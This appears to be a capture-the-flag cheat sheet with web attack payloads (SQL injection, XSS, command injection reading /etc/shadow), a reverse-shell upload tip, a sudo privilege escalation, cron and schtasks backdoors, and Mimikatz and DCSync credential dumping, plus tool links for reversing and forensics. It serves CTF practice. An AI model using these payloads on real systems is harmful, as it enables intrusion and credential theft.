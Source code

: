 # CTF Techniques
* [Steps to follow in a CTF](https://github.com/chreniuc/CTF)

# Web
Hidden pages
* Run `Dirbuster`, `dirb`, or `gobuster` to get a directory tree and insecure files
* Inspect robots.txt : www.website.com/robots.txt
* Inspect website headers: `curl -I website.com/page.php`

Hidden details - Use "Find" in page source to search: Login, Password, Admin, Administrator, Success
Passwords - Always try password=username first, then shorter/obvious password lists, before running rockyou.txt

[Admin Access through weak password update process - Walkthrough](https://siunam321.github.io/ctf/Cyber-Apocalypse-2023/Web/Passman/)
* Create user --> BurpSuite Interceptor ON --> Update Password --> Burp Repeater request to change "admin" password 

## SQL Inj 
Attempt login with: `admin' OR 1=1`, `' OR 1=1-- -`, `" OR 1=1-- -`, `" OR 1 or "`, `admin"-- -"`, `admin;-- -'`

## Reflected XSS 
Put any of the following into address bars, comment fields or any Java fields: <script>alert(flag)</script>, <sScriptCRIPT>alert(flag)</sSCRIPTcript>, 

## OS Inj
Run [valid input] followed by: `|| cat ../flag.txt`, `| cat ../flag.txt`, `&& cat ../flag.txt`, `& cat ../flag.txt`, `; cat ../flag.txt`
Run [valid input] followed by: `|| cat ../../etc/passwd`, `| cat ../etc/shadow`, `&& cat ../etc/shadow`, `& cat ../etc/shadow`, `; cat ../etc/shadow`
Run [valid input] followed by: `|| ifconfig`, `| ifconfig`, `&& ifconfig`, `& ifconfig`, `; ifconfig`

Input following into address bar with "?" options: `?message=;system` , `?page='netstat`
Other options for breaks: ' " : 

## Directory Traversal
Inspect address bar and use variations of `?page=disclaimer_2.txt` to find files/directories (eg. `?page=old_disclaimers/disclaimer_1.txt`)

## Local File Inclusion

Any option to upload a file: make sure it's php. 
* [PHP Sandbox](https://onlinephp.io/) - Testing PHP code
* [PHP - Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) - Edit and upload this, run nc listener, then access file from target server to establish a shell
* If whitelisting is being used, add an extension to PHP file (eg. cats.php.jpg)

## Remote File Inclusion

## Linux - Host Enumeration
* `Nmap -A -v ipaddress` (-A for aggressive, -v for verbose) [-sV not required with -A]
* `Nmap -sC -sV ipaddress` (-sC for script scan, -sV for Version detection)

Linux Post-exploitation: ls, cat, locate, cat /etc/users
* `getuid` , `search -f flag`, `locate flag`
* Attempt escalation with `sudo -u#-1 bash` for root
* Persistent backdoor through `cron`

Windows Post-exploitation: dir, type, find, net users
* Persistent backdoor through `schtasks` (check task names with `schtasks /query /TN flag /FO list /v`
* Check `C:\` & `C:\Users\Public\Documents`
* Lateral: Search Metasploit for `psexec` exploit to login to Domain Controller
  * Dump SAM with Metasploit/Mimikatz: `kiwi_cmd lsa_dump_sam` (Find Hash NTLM, crack with `john --format=NT hashfile.txt`)
  * Dump LSA cache with Metasploit/Mimikatz: `kiwi_cmd lsadump::cache` (Find MsCacheV2, crack with `john --format=mscash2 hashfile.txt`)
* On Domain Controller: Run DC Sync for admin users eg. `dcsync_ntlm administrator`
_______________________________________________________

# Reversing
* Run `Strings <file> | grep flag`
* [Excellent Reversing Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Reversing-HW-Misc/)
* [Reverse Engineering for Beginners - Free ELearning](https://www.begin.re/)
* [Cutter - RE Platform for Linux](https://cutter.re/)
 * [Cutter Example with HTB CTF2023 Challenge "Shatter Tablet"](https://www.youtube.com/watch?v=iCNLn3nvEZA)
* [IDA - Common Code Disassembler](https://hex-rays.com/ida-free/)
 * [IDA Basics Tutorial](https://resources.infosecinstitute.com/topic/basics-of-ida-pro-2/)
* [Ghidra - Common Decompiler](https://ghidra-sre.org/)
 * [Ghidra - NSA GitHub](https://github.com/NationalSecurityAgency/ghidra)
 * [Ghidra Install & Basics Tutorial](https://www.kalilinux.in/2021/06/ghidra-reverse-engineering-kali-linux.html)

# Forensics
* [Excellent Forensics Examples - NitroLabs](https://nitrolabs.xyz/posts/HTB-CA2023-Forensics/)  
* Wireshark Filter: `http contains flag`, `tcp contains flag`
  * Right-click packet and select `Follow stream`
* [Chainsaw - Windows Forensics Tool - GitHub](https://github.com/WithSecureLabs/chainsaw)  
* ps1 = Powershell

# Crypto
* [Cracking RSA with Chinese Remainder Theory - Calculator](https://asecuritysite.com/rsa/rsa_ctf02)
